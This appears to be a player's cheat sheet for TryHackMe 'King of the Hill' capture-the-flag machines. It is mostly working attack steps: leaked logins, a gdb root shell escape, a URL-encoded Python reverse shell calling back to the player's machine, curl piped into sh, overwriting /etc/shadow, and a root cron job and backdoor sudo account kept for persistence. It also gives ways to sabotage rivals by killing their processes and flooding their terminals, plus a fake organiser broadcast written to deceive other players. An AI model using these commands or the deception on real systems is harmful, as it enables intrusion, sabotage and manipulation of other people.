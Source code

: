 start up the in-browser machine  

# useful commands
find all admin commands:
`find / -perm -u=s -type f 2>/dev/null`
run linPEAS.sh(tool that finds potential privilege escalation points)
`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  

# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
`sudo chmod -xs vim.basic`  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
```
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```  
be root  
copypaste these in place of shrek's account in /etc/shadow  
`shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::`  
you now have shrek:onionshavelayers  
make shrek a sudoer  
```
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *
```  
grab the flag if someone else hasn't already  
```
sudo systemctl stop httpd  
sudo systemctl stop tomcat
```  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"
```  
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon
```  
change password  
`killall node`(make sure to ssh first)  
`chmod /bin/cp 000`      

???  
profit      




# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &  
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
sudo echo "* * * * * echo Happygator > /root/king.txt" > /tmp/cron && sudo cp /tmp/cron /var/spool/cron/crontabs/root && sudo service cron restart




